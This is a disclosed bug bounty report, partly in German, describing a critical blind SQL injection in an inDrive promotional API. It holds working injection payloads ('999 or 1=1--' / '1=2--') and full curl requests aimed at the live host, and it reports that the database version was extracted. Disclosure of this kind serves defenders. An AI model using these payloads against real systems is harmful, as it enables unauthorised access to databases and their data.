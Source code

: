 # Blind SQL injection on id.indrive.com

## Target

Reported to: inDrive
Disclosed: November 24, 2023, 2:37pm UTC
Severity: Critical (9 ~ 10)
Weakness: Blind SQL Injection
Bounty: $4,134
CVE ID: None
Account details: None

## Summary

Der Server führt keine Bereinigung bei Benutzereingaben durch, sodass ein Angreifer beliebige SQL-Befehle in eine Abfrage einfügen kann

## Steps To Reproduce

1. Gehe zu https://promo.indrive.com/10ridestogetprize_ru/random
2. Klicken Sie auf „Generieren“.

   	Eine Anfrage an https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/29/5/phone wird gemacht

	████████

3. Wiederholen Sie diese Anfrage, aber ändern Sie den Pfad zu 
   /api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=1--

	Ein zufälliger Eintrag aus der Datenbank wird zurückgegeben

	████

4. Ändern Sie den Pfad in einer Abfrage an 
   /api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--

	Die Antwort vom Server wird leer sein

	███████

5. Beide Anfragen im [[Curl]]-Format

	```bash

	curl -i -s -k -X $'GET' \
    	-H $'Host: id.indrive.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' 
	-H $'Accept: application/json, text/plain, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' 
	-H $'Origin: https://promo.indrive.com' -H $'Referer: https://promo.indrive.com/' -H $'Sec-Fetch-Dest: empty' 
	-H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-site' -H $'Te: trailers' -H $'Connection: close' \
    	$'https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=1--'

	```

	```bash	

	curl -i -s -k -X $'GET' \
	-H $'Host: id.indrive.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' 
	-H $'Accept: application/json, text/plain, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' 
	-H $'Origin: https://promo.indrive.com' -H $'Referer: https://promo.indrive.com/' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' 
	-H $'Sec-Fetch-Site: same-site' -H $'Te: trailers' -H $'Connection: close' \
 	$'https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--'

	```

## Impact

Diese Sicherheitsanfälligkeit ermöglicht es Angreifern, beliebige SQL-Anweisungen in einer Abfrage einzufügen.
Zum Beispiel konnte ich die SQL-Version abrufen:
PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1).